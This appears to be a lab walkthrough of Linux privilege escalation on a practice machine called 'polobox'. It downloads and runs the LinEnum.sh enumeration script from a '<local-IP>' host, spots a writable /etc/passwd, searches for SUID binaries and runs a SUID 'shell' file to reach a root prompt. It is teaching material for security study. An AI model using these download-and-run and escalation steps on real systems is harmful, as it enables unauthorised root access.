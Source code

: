 #### What critical file has had its permissions changed to allow some users to write to it?
```bash
user3@polobox:~$ wget <local-IP>/LinEnum.sh
user3@polobox:~$ chmod +x LinEnum.sh
user3@polobox:~$ ./LinEnum.sh
...
[-] Can we read/write sensitive files:
-rw-rw-r-- 1 root root 2694 Mar  6  2020 /etc/passwd
...
```

## Abusing SUID/GUID Files
- Finding SUID binaries:
    ```bash
    $ find / -perm -u=s -type f 2>/dev/null

    # find - Initiates the "find" command
    # / - Searches the whole file system
    # -perm - searches for files with specific permissions
    # -u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form
    # -type f - Only search for files
    # 2>/dev/null - Suppresses errors
    ```

#### What is the path of the file in user3's directory that stands out to you?
```bash
user3@polobox:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  shell  Templates  Videos
```

#### We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it! We can do this by running: "./shell"
```bash
user3@polobox:~$ ls -l shell 
-rwsr-xr-x 1 root root 8392 Jun  4  2019 shell
user3@polobox:~$ ./shell 
You Can't Find Me
Welcome to Linux Lite 4.4 user3
 
Sunday 10 January 2021, 23:26:37
Memory Usage: 335/1991MB (16.83%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~#
```
Congratulations! You should now have a shell as root user, well done!
